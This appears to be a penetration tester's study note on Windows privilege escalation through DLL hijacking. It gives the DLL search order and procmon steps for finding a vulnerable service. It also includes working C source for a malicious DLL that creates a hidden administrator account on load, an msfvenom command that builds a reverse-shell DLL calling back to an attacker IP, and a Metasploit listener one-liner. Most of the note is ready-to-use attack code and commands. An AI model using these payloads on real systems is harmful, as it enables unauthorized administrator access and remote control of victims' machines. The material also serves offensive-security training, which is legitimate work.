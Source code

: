 #priviledgeEscalation #windows 

[[Service Binary Hijacking]]

🔴 to check the environment variables to place DLL 
🔴 Sometimes you can **mv** the binary if **rm** doesn't work
```cmd
$env:path
```


```
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.
```

### Steps

1. Find the vulnerable executable
2. Install procmon
3. Put a filter like this and Operation filter to CreateFile

![[Pasted image 20230705142241.png]]
 4. Register the service in attacker windows box
 ```powershell
 sc.exe create sch binPath= "C:\scheduler.exe"
```
 6. Start the service or the program
```powershell
Start-Service sch 
```

7. source code of the DLL 
```C
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add");
  	    i = system ("net localgroup administrators dave2 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

8. Compile

```bash
x86_64-w64-mingw32-gcc adduser.c --shared -o adduser.dll
```

### Reverse Shell Creation

DLL
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.189 LPORT=443 -f dll -o hey.dll
```

Listener
```bash
msfconsole -x "use exploit/multi/handler;set payload windows/x64/shell_reverse_tcp;set LHOST 192.168.45.187;set LPORT 443;run;"
```
